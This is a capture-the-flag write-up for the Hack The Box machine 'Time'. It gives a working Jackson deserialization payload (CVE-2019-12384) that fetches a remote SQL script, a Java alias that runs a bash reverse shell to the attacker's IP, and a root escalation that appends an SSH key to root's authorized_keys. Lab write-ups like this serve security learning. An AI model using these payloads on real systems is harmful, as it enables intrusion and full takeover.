



time

# TIME HTB [ 10.10.10.214 ]

## Foothold

The validation part of this application seems to be in the beta mode. There is a possibility of json deserialization attack.



Let's try breaking it down.
```bash
Provided data: {"":""}

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object"

```
It clearly tells that it needs json array as an input !

```bash
Provided data: [""]

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id '' as a subtype of [simple type, class java.lang.Object]: no such class found"
```

### Google is your friend !!!

After few failed attempts, finally found a working exploit for this version.




## Proof of vulnerability 
*"ch.qos.logback.core.db.DriverManagerConnectionSource"* is a vulnerable gadget that can be used to deserialize and execute code in the target machine.
```bash
Provided data: ["ch.qos.logback.core.db.DriverManagerConnectionSource"]

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `ch.qos.logback.core.db.DriverManagerConnectionSource` out of END_ARRAY token"
```

```bash
Gadget used:
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.205:8000/inject.sql'"}]
```
### inject.sql
Changed the inject.sql file from the actual github exploit, since it returned slow query error. And I haven't got any shells. I thought that there might be no "nc" in target machine. So I attempted for a reverse shell using bash.
```bash
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.205/4444 0>&1 &')
```

## User



Finally got the user shell !!!!! :P

```bash
pericles@time:/home/pericles$ cat user.txt
e729a43261e31ef9928a1df2d50a87de
```
Before trying to escalate privileges, I decided to upgrade my dumb-shell into interactive shell for some reason.
## Root

Enumerating using linpeas revealed a file with write access to the `pericles`. It is located in `/usr/bin/timer_backup.sh`. I tried to add few custom commands in the script to copy the `root.txt` flag into `/tmp/pwned`, but it didn't work for some reason.

So I tried to copy my SSH `public_key` into the root user's `authorized_keys` 

```bash
pericles@time:/home/pericles/.ssh$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
cat /home/pericles/.ssh/id_rsa.pub >> /root/.ssh/authorized_keys
```
And then after 10 mins of wait, I tried to SSH into the root user account. 

```bash
pericles@time:/home/pericles/.ssh$ ssh root@localhost
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 05 Dec 2020 06:35:00 PM UTC

  System load:             0.49
  Usage of /:              21.0% of 29.40GB
  Memory usage:            17%
  Swap usage:              0%
  Processes:               244
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4a10


83 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Sat Dec  5 18:22:53 2020 from 127.0.0.1
root@time:~# cat root.txt
901a2df4dc5d03e3f8c9f1a3cb0338d7

```

## References

- https://github.com/jas502n/CVE-2019-12384
- https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/


